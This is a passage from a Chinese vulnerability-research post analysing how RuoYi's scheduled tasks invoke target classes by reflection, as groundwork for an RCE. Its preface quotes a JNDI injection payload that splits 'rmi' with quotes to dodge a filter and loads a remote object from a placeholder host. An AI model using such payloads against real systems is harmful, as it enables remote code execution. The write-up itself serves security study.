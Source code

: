 前言
--

关于若依漏洞或者是审计的文章网上挺多的，本来就只是想写一下最新版4.7.8的RCE。因为之前没接触过若依就打算看看定时任务实现的原理以及历史的漏洞，但是在查阅资料的时候，发现了**一些**文章给的poc有问题，比如作者写的是&lt;4.7.2时，给的是`org.springframework.jndi.JndiLocatorDelegate.lookup('r'm'i://ip:端口/refObj')`，大概作者的目的是想说明可以通过若依对字符串的处理的一些问题(参数中的`'`会替换为空)绕过对`rmi`的过滤，但是却没有考虑到`org.springframework.jndi`在4.7.1版本中已经加入了黑名单。作者也只是给出了poc，并没有复现的过程！

计划任务实现原理
--------

从[官方文档](https://doc.ruoyi.vip/ruoyi/document/htsc.html#%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1)可以看出可以通过两种方法调用目标类：

- Bean调用示例：ryTask.ryParams('ry')
- Class类调用示例：com.ruoyi.quartz.task.RyTask.ryParams('ry')

接下来咱调试一下，看看具体是如何实现的这个功能的

首先直接在测试类下个断点，看看调用

![image-20240305195847965](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cf50d3b9d468ec8186ecf8a22ba5d9ecaa92035a.png)

通过系统默认的任务1来执行这个测试类

![image-20240305200210899](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-9cef43be342236a86d51d10050a526b64c87a3c8.png)

![image-20240305200151822](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-24dd1f32e038ad07c3740dc88c46f65faa25b72b.png)  
在调用过程中，会发现在`com.ruoyi.quartz.util.JobInvokeUtil`类中存在两个名为`invokeMethod`的方法，并前后各调用了一次

![image-20240305202252424](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-cd167c854b5c730081aa2e629f45c7a79c3dadc7.png)

在第一个`invokeMethod`方法中对调用目标字符串的类型进行判断，判断是Bean还是Class。然后调用第二个`invokeMethod`方法

- bean就通过getBean()直接获取bean的实例
- 类名就通过反射获取类的实例

```java
if (!isValidClassName(beanName)){  
    Object bean = SpringUtils.getBean(beanName);  
    invokeMethod(bean, methodName, methodParams);  
}  
else  
{  
    Object bean = Class.forName(beanName).newInstance();  
    invokeMethod(bean, methodName, methodParams);  
}
```

第二个`invokeMethod`这个方法通过反射来加载测试类

```java
if (StringUtils.isNotNull(methodParams) && methodParams.size() > 0){
    Method method = bean.getClass().getDeclaredMethod(methodName, getMethodParamsType(methodParams));
    method.invoke(bean, getMethodParamsValue(methodParams));
}
```
